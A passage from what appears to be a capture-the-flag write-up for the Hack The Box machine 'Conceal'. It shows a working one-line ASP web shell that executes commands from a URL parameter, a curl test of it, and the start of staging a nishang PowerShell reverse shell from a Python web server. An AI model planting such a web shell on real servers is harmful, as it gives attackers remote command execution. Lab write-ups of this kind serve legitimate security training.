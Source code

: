 At first I created an aspx reverse shell using `msfvenom`, but unfortenatly this doesn't work on the target:

![not-found-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/not-found-20.png)


I tried creating an asp payload with `msfvenom` though it didn't work either. Instead we can use this simple asp web-shell: 

```asp
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

After we save this to a file and upload to the FTP we can test it with a simple command:

```bash
curl http://conceal.htb/upload/shell.asp?cmd=whoami
```

![whoami-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/whoami-21.png)


From here we can use [nishang](https://github.com/samratashok/nishang)'s `Invoke-PowerShellTcp.ps1` script. Make sure to invoke the script at the end:

![info-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/invoke-22.png)


Now we need to host this script via a python web server:

```bash
python3 -m http.server 80
```
